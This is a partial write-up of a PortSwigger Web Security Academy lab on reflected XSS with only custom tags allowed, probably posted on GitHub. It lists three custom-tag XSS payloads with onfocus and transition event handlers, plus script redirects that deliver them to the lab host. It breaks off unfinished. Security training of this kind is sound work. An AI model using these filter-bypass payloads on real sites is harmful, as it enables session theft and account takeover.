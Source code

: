 # Lab: Reflected XSS into HTML context with all tags blocked except custom ones

This lab blocks all HTML tags except custom ones.

To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts document.cookie.

# Step 1 Test search funtion for XSS

I find that if I search using html tags, that my output is reflected on the page:
![image](https://user-images.githubusercontent.com/83407557/211054613-0d8c6fb7-ac46-48b7-9c3e-3817e7b66c9a.png)
![image](https://user-images.githubusercontent.com/83407557/211054670-78a3702c-01c8-4baa-a846-43d1ee9f5020.png)

However any attempt to add known tags throws an error:

![image](https://user-images.githubusercontent.com/83407557/211054822-fc162e24-2602-471e-b34b-47ca803a27e7.png)
![image](https://user-images.githubusercontent.com/83407557/211054875-5b856ccd-6354-4e15-a0a2-6d971584058e.png)

# Step 2 Create an intruder attack using custom tags

I capture a test string with burp and send it to intruder:

![image](https://user-images.githubusercontent.com/83407557/211055319-7eb91c5b-a359-4ddb-9e32-405f7a839d6c.png)

I add a payload position on the string "test"

![image](https://user-images.githubusercontent.com/83407557/211055535-ee5d4dec-00fc-4fc8-b111-1c6de3dcfbf8.png)

Using the [Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) I select custom tags with all events, and copy payloads under Event handlesrs that do not require user interaction:

![image](https://user-images.githubusercontent.com/83407557/211057224-1a66daa8-4264-40b3-844d-b11e429bac22.png)

And add the copied payloads from this list into the payloads section of my intruder attack:

![image](https://user-images.githubusercontent.com/83407557/211057684-703cd62f-0c76-4fba-b534-0ea10fba33c3.png)

I find that three of the payloads returned 200 ok response codes:

![image](https://user-images.githubusercontent.com/83407557/211057929-cd2eb43e-02f5-441e-8a0b-7df76f5c048c.png)

```html
<xss id=x tabindex=1 onfocus=alert(1)></xss>

<xss id=x tabindex=1 onfocusin=alert(1)></xss>

<xss id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></xss>
```

# Step 3 Create payloads 

Using the cheat sheet I can click on the links for each of these to view a POC:

![image](https://user-images.githubusercontent.com/83407557/211066414-71ff9942-884b-4a52-b493-5979f09eb2c4.png)

![image](https://user-images.githubusercontent.com/83407557/211066623-a5c1ee2c-63b9-41f8-98f3-857dfac53cf0.png)

Using this I can copy the payload parts of the URLs:

```html
<xss id%3Dx tabindex%3D1 onfocus%3Dalert(1)><%2Fxss>#x
  
<xss id%3Dx tabindex%3D1 onfocusin%3Dalert(1)><%2Fxss>#x
  
<xss id%3Dx style%3D"transition%3Aoutline 1s" ontransitionend%3Dalert(1) tabindex%3D1><%2Fxss>#x  
```


```html
<script>
  location = 'https://0af6001904e737f8c0f96d79008d007e.web-security-academy.net/?search=%3Cxss+id%3Dx+tabindex%3D1+onfocus%3Dalert%281%29%3E%23x%3C%2Fxss%3E';
</script>
```

```html
<script>
  location = 'https://0af6001904e737f8c0f96d79008d007e.web-security-academy.net//?search=%3Cxss+id%3Dx+tabindex%3D1+onfocusin%3Dalert%281%29%3E%23x%3C%2Fxss%3E';
</script>
```

```html
<script>
  location = '/?search=%3Cxss+id%3Dx+style%3D%22transition%3Aoutline+1s%22+ontransitionend%3Dalert%281%29+tabindex%3D1%3E%3C%2Fxss%3E';
</script>
```

# Step 4 add payloads to attack server

I am going to try each payload in-turn on myself using the attack server:

![image](https://user-images.githubusercontent.com/83407557/211062177-07568575-4baf-4ce1-99ab-3b90fc824302.png)


Took a break, payloads work if you click on the example links of cheatsheet
